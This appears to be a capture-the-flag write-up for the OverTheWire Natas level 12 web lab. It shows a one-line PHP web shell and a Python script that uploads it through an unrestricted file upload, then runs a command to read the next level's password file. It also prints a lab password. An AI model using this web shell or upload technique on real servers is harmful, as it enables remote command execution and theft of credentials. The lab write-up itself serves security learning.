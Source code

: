 ```php
    </form>

    <?php
}
?>

```

we make a php script and save as `pwd_script.php` , store in current root directory

```php
<?php system( $_GET['pwd'].' 2>&1'); ?>
```

Uploading a file that executes some kind of command (preferably in an interactive way) is called a web shell . This is a one-liner web shell that:

- Gets the `pwd` parameter from a GET request
- Executes this value
- Redirects `stderr` (standard error) output to `stdout` (standard out) so we can see any error messages

From source we know that , `filename` and `MAX_FILE_SIZE` should match in post request , to upload file in requests module , we can use `files` parameter in `requests.post()`

and as we we know the file has been stored with random_name

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters) - 1)];
    }

    return $string;
}
```

we get those by regex in python and again we can web_shell using `pwd` parameter to `cat /etc/natas_webpass/natas13`
some like this `upload/???????.php?pwd=whoami`

```py
import requests
import re

username = 'natas12'
password = 'YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG'

url = 'http://%s.natas.labs.overthewire.org/'%username
session = requests.Session()
response = session.post(url , files={"uploadedfile" : open('pwd_script.php','rb') } , data = {"filename" : "pwd_script.php" , "MAX_FILE_SIZE" : "1000"}, auth=(username,password))

rand_name = re.findall('"upload/(.*).php"',response.text)[0] #addtw10c.php
response = session.get(url + 'upload/'+rand_name+'.php?pwd=cat /etc/natas_webpass/natas13' , auth =(username,password))

content = response.text
print(content)

```

---